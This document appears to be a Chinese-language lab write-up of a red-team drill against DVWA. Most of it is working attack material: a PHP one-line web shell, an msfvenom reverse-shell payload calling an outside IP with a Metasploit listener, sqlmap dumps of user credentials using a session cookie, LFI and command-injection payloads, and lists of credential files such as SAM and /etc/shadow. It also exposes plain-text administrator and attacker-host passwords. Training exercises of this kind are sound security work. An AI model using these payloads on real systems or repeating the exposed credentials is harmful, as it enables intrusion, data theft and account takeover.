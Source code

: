 # acermis攻防演練

透過php一句話木馬取得systeminfo資訊

<?php system($_GET['cmd']); ?>

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled.png)

## 一、二、透過上傳漏洞進行攻擊

(取得資敏資料、取得遠端桌面連線)

透過以下指令產生php後門(test.php可以更換名稱)

msfvenom -p php/meterpreter/reverse_tcp lhost=61.219.51.40 lport=4444 -o test.php

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%201.png)

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%202.png)

上傳後，到uploads資料夾下面確認檔案成功

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%203.png)

到駭客攻擊主機上啟用listener

msfconsole

use exploit/multi/handler

set payload php/meterpreter/reverse_tcp

set lhost 192.168.0.2

set lport 4444

exploit

設定好之後，到dvwa上面執行php的後門程式，成功連到攻擊者主機

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%204.png)

拿到meterpreter後，透過cd指令，切換到以下路徑

C:\Windows\system32\drivers\etc\hosts

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%205.png)

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%206.png)

將檔案下載回本地

download hosts /home/kali/

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%207.png)

再meterpreter模式下，設定port forward

portfwd add -l 3389 -p 3389 -r 127.0.0.1

透過xfreerdp進行遠端桌面連線

xfreerdp /u:administrator /v:127.0.0.1

密碼如下：

!Sf=pj6P.twmYi78))vOuHFGEfL)TVF5

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%208.png)

## 三、sql injection

### 確定security level是low

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%209.png)

## 進入sql injection頁面，輸入1後送出

[http://54.178.18.190/dvwa/vulnerabilities/sqli/](http://54.178.18.190/dvwa/vulnerabilities/sqli/)

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%2010.png)

### 將目前的url, cookie都準備好，準備執行sqlmap

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%2011.png)

sqlmap -u "[http://54.178.18.190/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#](http://54.178.18.190/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#)" --cookie="security=low; PHPSESSID=m58dtec2sc93gn36qd4as5eirc"

列出所有的db

sqlmap -u "[http://54.178.18.190/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#](http://54.178.18.190/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#)" --cookie="security=low; PHPSESSID=m58dtec2sc93gn36qd4as5eirc" -dbs

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%2012.png)

列出dvwa裡面所有的tables

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%2013.png)

列出users裡面所有的cloumns

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%2014.png)

將使用者帳號密碼dump出來

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%2015.png)

## 四、透過LFI取得windows機敏資訊

進入file inclusion頁面，將page後的檔案名稱換成以下windows路徑檔案

C:\windows\system32\drivers\etc\hosts　#域名解析文件

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%2016.png)

## 五、透過command injeciton取的windows systeminfo資訊

進入command injection頁面，輸入正常input

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%2017.png)

將input改為127.0.0.1 & systeminfo

取得系統詳細資訊，如果是正式主機，可以取得DC的相關資訊進行更近一步攻擊

![Untitled](acermis%E6%94%BB%E9%98%B2%E6%BC%94%E7%B7%B4%2091bc9484ba10405eafc830a37bddda73/Untitled%2018.png)

---

參考資料

攻擊者主機：

192.168.0.4

icd450

1qaz@WSX

裡面vm有一個kali, ip是192.168.0.2

---

!Sf=pj6P.twmYi78))vOuHFGEfL)TVF5

C:\Windows\system32\drivers\etc\hosts

portfwd add -l 3389 -p 3389 -r 127.0.0.1
xfreerdp /u:administrator /v:127.0.0.1

!Sf=pj6P.twmYi78))vOuHFGEfL)TVF5

---

**windows**

- C:\windows\system32\drivers\etc\hosts　#域名解析文件
- C:\windows\repair\sam　#存windows用户的密码
- C:\boot.ini　#保存有系统的启动信息

Linux

/etc/passwd　　#用户配置文件
/etc/shadow　　#影子文件
/etc/resolv.conf　　#DNS客户机配置文件
/etc/network/interfaces　　#debian系列IP配置文件
/etc/sysonfig/network-scripts/ifcfg-ethx　　#redhat系列IP配置文件
